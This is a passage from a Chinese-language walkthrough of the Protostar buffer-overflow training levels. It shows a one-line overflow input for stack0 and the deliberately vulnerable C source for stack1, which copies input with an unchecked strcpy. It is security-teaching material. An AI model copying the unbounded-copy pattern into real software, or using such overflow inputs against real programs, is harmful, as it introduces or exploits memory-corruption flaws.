 可以看到**buffer**的位置是`esp+0x1c`， **modified**变量在`esp+0x5c`， 二者距离是**0x40**，也就是**64个字节大小**，通过`输入超过64个字节的数据`，就能**覆盖modified变量**.

`python -c "print('A'*68)" | ./stack0`


|  stack     |
| ---------- |
| esp + 0x1c |
|            |
|            |
| esp + 0x5c |

---

## Stack1

### About
This level looks at the concept of modifying variables to specific values in the program, and how the variables are laid out in memory.

This level is at /opt/protostar/bin/stack1

Hints

If you are unfamiliar with the hexadecimal being displayed, “man ascii” is your friend.
Protostar is **little endian**

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```
